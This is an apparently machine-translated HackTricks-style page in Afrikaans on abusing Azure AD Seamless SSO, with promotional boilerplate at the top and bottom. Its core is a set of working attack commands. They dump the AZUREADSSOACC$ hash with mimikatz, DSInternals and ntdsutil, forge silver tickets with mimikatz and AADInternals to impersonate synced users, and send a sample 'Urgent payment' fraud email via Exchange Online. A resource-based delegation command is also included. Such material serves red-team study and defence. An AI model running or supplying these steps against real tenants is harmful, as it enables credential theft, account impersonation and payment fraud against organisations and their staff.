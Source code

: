 # Az - Naadloos SSO

<details>

<summary><strong>Leer AWS-hacking vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kontroleer die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS-familie**](https://opensea.io/collection/the-peass-family), ons versameling eksklusiewe [**NFT's**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslag.

</details>

## Basiese Inligting

[Van die dokumente:](https://learn.microsoft.com/en-us/entra/identity/hybrid/connect/how-to-connect-sso) Azure Active Directory Naadloos Enkelinvoer (Azure AD Naadloos SSO) teken outomaties **gebruikers in wanneer hulle op hul korporatiewe toestelle** wat aan jou korporatiewe netwerk gekoppel is. Wanneer dit geaktiveer is, **hoef gebruikers nie hul wagwoorde in te tik om by Azure AD aan te meld nie**, en gewoonlik selfs nie hul gebruikersname in te tik nie. Hierdie kenmerk bied jou gebruikers maklike toegang tot jou wolkgebaseerde toepassings sonder om enige addisionele plaaslike komponente nodig te hê.

<figure><img src="../../../../.gitbook/assets/image (275).png" alt=""><figcaption></figcaption></figure>

Basies teken Azure AD Naadloos SSO **gebruikers** in wanneer hulle **op 'n plaaslike domein-gekoppelde rekenaar** is.

Dit word ondersteun deur beide [**PHS (Wagwoordhassinkronisasie)**](phs-password-hash-sync.md) en [**PTA (Deurvoer-identifikasie)**](pta-pass-through-authentication.md).

Desktop SSO gebruik **Kerberos** vir outentifikasie. Wanneer dit gekonfigureer is, skep Azure AD Connect 'n **rekenaarrekening genaamd AZUREADSSOACC`$`** in die plaaslike AD. Die wagwoord van die `AZUREADSSOACC$`-rekening word **as teks na Azure AD gestuur** tydens die konfigurasie.

Die **Kerberos-kaartjies** word **versleutel** met die **NTHash (MD4)** van die wagwoord en Azure AD gebruik die gestuurde wagwoord om die kaartjies te ontsluit.

**Azure AD** stel 'n **eindepunt** bloot (https://autologon.microsoftazuread-sso.com) wat Kerberos-**kaartjies** aanvaar. Die blaaier van 'n domein-gekoppelde masjien stuur die kaartjies na hierdie eindpunt vir SSO.

### Plaaslik -> wolk

Die **wagwoord** van die gebruiker **`AZUREADSSOACC$` verander nooit**. Daarom kan 'n domein-admin 'n kompromieer van die **hassink van hierdie rekening** en dit dan gebruik om **silwerties te skep** om met **enige plaaslike gebruiker gesinkroniseer na Azure** te verbind:
```powershell
# Dump hash using mimikatz
Invoke-Mimikatz -Command '"lsadump::dcsync /user:domain\azureadssoacc$ /domain:domain.local /dc:dc.domain.local"'
mimikatz.exe "lsadump::dcsync /user:AZUREADSSOACC$" exit

# Dump hash using https://github.com/MichaelGrafnetter/DSInternals
Get-ADReplAccount -SamAccountName 'AZUREADSSOACC$' -Domain contoso -Server lon-dc1.contoso.local

# Dump using ntdsutil and DSInternals
## Dump NTDS.dit
ntdsutil "ac i ntds" "ifm” "create full C:\temp" q q
## Extract password
Install-Module DSInternals
Import-Module DSInternals
$key = Get-BootKey -SystemHivePath 'C:\temp\registry\SYSTEM'
(Get-ADDBAccount -SamAccountName 'AZUREADSSOACC$' -DBPath 'C:\temp\Active Directory\ntds.dit' -BootKey $key).NTHash | Format-Hexos
```
Met die hash kan jy nou **silwerties genereer**:
```powershell
# Get users and SIDs
Get-AzureADUser | Select UserPrincipalName,OnPremisesSecurityIdentifier

# Create a silver ticket to connect to Azure with mimikatz
Invoke-Mimikatz -Command '"kerberos::golden /user:onpremadmin /sid:S-1-5-21-123456789-1234567890-123456789 /id:1105 /domain:domain.local /rc4:<azureadssoacc hash> /target:aadg.windows.net.nsatc.net /service:HTTP /ptt"'
mimikatz.exe "kerberos::golden /user:elrond /sid:S-1-5-21-2121516926-2695913149-3163778339 /id:1234 /domain:contoso.local /rc4:12349e088b2c13d93833d0ce947676dd /target:aadg.windows.net.nsatc.net /service:HTTP /ptt" exit

# Create silver ticket with AADInternal to access Exchange Online
$kerberos=New-AADIntKerberosTicket -SidString "S-1-5-21-854168551-3279074086-2022502410-1104" -Hash "097AB3CBED7B9DD6FE6C992024BC38F4"
$at=Get-AADIntAccessTokenForEXO -KerberosTicket $kerberos -Domain company.com
## Send email
Send-AADIntOutlookMessage -AccessToken $at -Recipient "someone@company.com" -Subject "Urgent payment" -Message "<h1>Urgent!</h1><br>The following bill should be paid asap."
```
Om die silwertiket te gebruik, moet die volgende stappe uitgevoer word:

1. **Begin die Blaaier:** Mozilla Firefox moet geopen word.
2. **Stel die Blaaier in:**
   * Navigeer na **`about:config`**.
   * Stel die voorkeur vir [network.negotiate-auth.trusted-uris](https://github.com/mozilla/policy-templates/blob/master/README.md#authentication) in op die gespesifiseerde [waardes](https://docs.microsoft.com/en-us/azure/active-directory/connect/active-directory-aadconnect-sso#ensuring-clients-sign-in-automatically):
     * `https://aadg.windows.net.nsatc.net`
     * `https://autologon.microsoftazuread-sso.com`
3. **Toegang tot die Webtoepassing:**
   * Besoek 'n webtoepassing wat geïntegreer is met die organisasie se AAD-domein. 'n Gewone voorbeeld is [Office 365](https://portal.office.com/).
4. **Verifikasieproses:**
   * Voer die gebruikersnaam in by die aanmeldingskerm, en los die wagwoordveld leeg.
   * Druk TAB of ENTER om voort te gaan.

{% hint style="success" %}
Dit vermy nie MFA indien geaktiveer nie
{% endhint %}

#### ~~Skep van Kerberos-tikette vir slegs-wolkmense~~ <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

As die Active Directory-administrateurs toegang het tot Azure AD Connect, kan hulle **SID instel vir enige wolkgebruiker**. Op hierdie manier kan Kerberos **tikette ook vir slegs-wolkmense geskep word**. Die enigste vereiste is dat die SID 'n behoorlike [SID](https://docs.microsoft.com/en-us/previous-versions/windows/it-pro/windows-server-2003/cc778824\(v=ws.10\)) is.

{% hint style="danger" %}
Die verandering van SID van slegs-wolk-admin-gebruikers is nou **geblokkeer deur Microsoft**.\
Vir inligting, besoek [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
{% endhint %}

### On-prem -> Wolk via Hulpbron-Gebaseerde Beperkte Delegering <a href="#creating-kerberos-tickets-for-cloud-only-users" id="creating-kerberos-tickets-for-cloud-only-users"></a>

Enigeen wat rekenaarrekeninge kan bestuur (`AZUREADSSOACC$`) in die houer of OU waarin hierdie rekening is, kan **'n hulpbron-gebaseerde beperkte delegasie oor die rekening instel en dit benader**.
```python
python rbdel.py -u <workgroup>\\<user> -p <pass> <ip> azureadssosvc$
```
## Verwysings

* [https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso](https://learn.microsoft.com/en-us/azure/active-directory/hybrid/how-to-connect-sso)
* [https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/](https://www.dsinternals.com/en/impersonating-office-365-users-mimikatz/)
* [https://aadinternals.com/post/on-prem\_admin/](https://aadinternals.com/post/on-prem\_admin/)
* [TR19: I'm in your cloud, reading everyone's emails - hacking Azure AD via Active Directory](https://www.youtube.com/watch?v=JEIR5oGCwdg)

<details>

<summary><strong>Leer AWS hakwerk vanaf nul tot held met</strong> <a href="https://training.hacktricks.xyz/courses/arte"><strong>htARTE (HackTricks AWS Red Team Expert)</strong></a><strong>!</strong></summary>

Ander maniere om HackTricks te ondersteun:

* As jy wil sien dat jou **maatskappy geadverteer word in HackTricks** of **HackTricks aflaai in PDF-formaat** Kyk na die [**INSKRYWINGSPLANNE**](https://github.com/sponsors/carlospolop)!
* Kry die [**amptelike PEASS & HackTricks swag**](https://peass.creator-spring.com)
* Ontdek [**Die PEASS Familie**](https://opensea.io/collection/the-peass-family), ons versameling van eksklusiewe [**NFTs**](https://opensea.io/collection/the-peass-family)
* **Sluit aan by die** 💬 [**Discord-groep**](https://discord.gg/hRep4RUj7f) of die [**telegram-groep**](https://t.me/peass) of **volg** ons op **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Deel jou haktruuks deur PR's in te dien by die** [**HackTricks**](https://github.com/carlospolop/hacktricks) en [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github-opslaan.

</details>
